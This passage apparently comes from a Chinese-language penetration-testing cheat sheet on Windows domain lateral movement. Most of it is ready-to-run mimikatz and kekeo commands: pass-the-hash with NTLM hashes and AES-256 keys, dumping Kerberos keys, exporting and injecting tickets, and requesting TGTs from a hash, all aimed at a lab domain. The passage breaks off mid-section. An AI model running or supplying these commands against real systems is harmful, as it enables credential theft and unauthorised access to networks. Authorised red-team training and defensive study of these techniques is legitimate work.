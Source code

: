 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:pentest.hacker /ntlm:[NTLM]"<br>``` |

### [](#%E4%BD%BF%E7%94%A8-aes-256-%E5%AF%86%E9%92%A5%E8%BF%9B%E8%A1%8C%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92)使用 AES-256 密钥进行哈希传递

使用 mimikatz 抓取 AES-256 密钥

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::ekeys"<br>``` |

pth 攻击（目标机器必须安装 KB2871997）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:pentest.hacker /aes256:[aes256]"<br>``` |

## [](#%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)票据传递

### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E8%BF%9B%E8%A1%8C%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)使用 mimikatz 进行票据传递

#### [](#%E5%AF%BC%E5%87%BA%E7%A5%A8%E6%8D%AE)导出票据

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::tickets /exports"<br>``` |

#### [](#%E6%B3%A8%E5%85%A5%E7%A5%A8%E6%8D%AE)注入票据

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "kerberos::ptt" "C:\xxx.kirbi"<br>``` |

### [](#%E4%BD%BF%E7%94%A8-kekeo-%E8%BF%9B%E8%A1%8C%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)使用 kekeo 进行票据传递

#### [](#%E7%94%9F%E6%88%90%E7%A5%A8%E6%8D%AE%E6%96%87%E4%BB%B6)生成票据文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>kekeo "tgt:ask /user:administrator /domain:pentest.hack /ntlm:[NTLM]"<br>``` |

#### [](#%E5%B0%86%E7%A5%A8%E6%8D%AE%E6%96%87%E4%BB%B6%E5%AF%BC%E5%85%A5%E5%86%85%E5%AD%98)将票据文件导入内存
